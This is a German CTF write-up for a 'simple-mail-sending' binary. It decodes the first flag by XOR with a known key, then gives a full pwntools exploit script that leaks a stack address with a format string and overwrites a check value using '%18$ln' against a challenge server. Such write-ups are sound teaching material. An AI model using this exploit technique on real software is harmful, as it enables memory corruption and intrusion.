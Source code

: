 In der Funktion `show_digest` findet man folgenden Algorithmus. Dieser führt ein XOR mit unserem custom format durch. Da wir dieses kennen ist ein erneutes XOR mit diesem die Entschlüsselung der ersten Flagge.
```c
for (i = 0; i < 8; i = i + 1) {
    printf("%02x",(ulong)(uint)(int)custom_format[i]);
  }
  putchar(0x3a);
  for (j = 0; (ulong)(long)j < flaglen; j = j + 1) {
    printf("%02x",(ulong)(uint)(int)(char)(custom_format[j % 8] ^ __s[j]));
  }
```


```
###
If you want to share the format with the developers, use the following digest:
4141414141414100:272d20263a2f71771e7137723336333135721e70321e75642c702f1e367035681e3133702f35273a7b08330402061336703835152e3c
###
```

```python
key="4141414141414100"

flag="272d20263a2f71771e7137723336333135721e70321e75642c702f1e367035681e3133702f35273a7b08330402061336703835152e3c"

def to_hex(line):
  splitted = [int(line[i:i+2], 16).to_bytes(1) for i in range(0, len(line), 2)]
  return splitted

key = to_hex(key)
flag = to_hex(flag)

def byte_xor(ba1, ba2):
    return bytes([_a ^ _b for _a, _b in zip(ba1, ba2)])

length = len(flag)
print (length)
for j  in range (0, len(flag)):

    print (byte_xor(key[j % 8], flag[j]).decode('utf-8'), end="")
```

Für die nächste Flagge ist ein typischer Stack-Address Leak nötig. Dieser kann mit der "Custom Format" Option und der Eingabe von `%2$lx` erreicht werden.
Anschließend muss man erneut eine E-Mail senden, und dort als `From` die Adresse ablegen (damit diese auf dem Stack liegt und wir diese für das Überschreiben nutzen können.).
Man wählt wieder "Custom Format" und schreibt mit `a%18$ln` eine 1 an die Position wo vorher 0x1337 stand. Dies manipuliert die darauf folgende Prüfung und die Flagge wird angezeigt.

```python
!/usr/bin/env python3

from pwn import *

exe = ELF("simple-mail-sending")

context.binary = exe

def conn():
    if args.LOCAL:
        r = process([exe.path], env={"FLAG1": "flag{testflag}"})
        if args.DEBU:
            gdb.attach(r, """
break *0x40172c
c
""")
    else:
        r = remote("10.65.52.126", 1024)

    return r

def scanfor1337(r):
    for i in range(0, 200):
        r.recvuntil(b"From: \n")
        r.sendline(b"AAAAAAAA")
        r.recvuntil(b"To: \n")
        r.sendline(b"012345678901234567")
        r.recvuntil(b"Subject: \n")
        r.sendline(b"012345678901234567")
        r.recvuntil(b"Message: \n")
        r.sendline(b"01234567890123456")
        r.recvuntil(b"Custom\n")
        r.sendline(b"3")
        r.recvuntil(b"Custom Format: \n")
        r.sendline(b"%"+bytes(str(i),'ascii')+b"$lx")
        r.recvuntil("BEGIN") 
        print(f"{i} ", r.recvuntil("END")) 
        r.sendline(b"y")

def exploit(r):
    offset=0xe8
    r.recvuntil(b"From: \n")
    r.sendline(b"0")
    r.recvuntil(b"To: \n")
    r.sendline(b"0")
    r.recvuntil(b"Subject: \n")
    r.sendline(b"0")
    r.recvuntil(b"Message: \n")
    r.sendline(b"0")
    r.recvuntil(b"Custom\n")
    r.sendline(b"3")
    r.recvuntil(b"Custom Format: \n")
    r.sendline(b"%2$lx")
    r.recvuntil("BEGIN\n") 
    addr = int(r.recvuntil("END\n")[:-5],16) + offset 
    r.sendline(b"y")
    r.recvuntil(b"From: \n")
    r.sendline(p64(addr))
    r.recvuntil(b"To: \n")
    r.sendline(b"0")
    r.recvuntil(b"Subject: \n")
    r.sendline(b"0")
    r.recvuntil(b"Message: \n")
    r.sendline(b"0")
    r.recvuntil(b"Custom\n")
    r.sendline(b"3")
    r.recvuntil(b"Custom Format: \n")
    r.sendline(b"a%18$ln")
    r.interactive()
def main():
    r = conn()
    #scanfor1337(r)
    exploit(r)
    r.interactive()
    r.close()
    


if __name__ == "__main__":
    main()
```
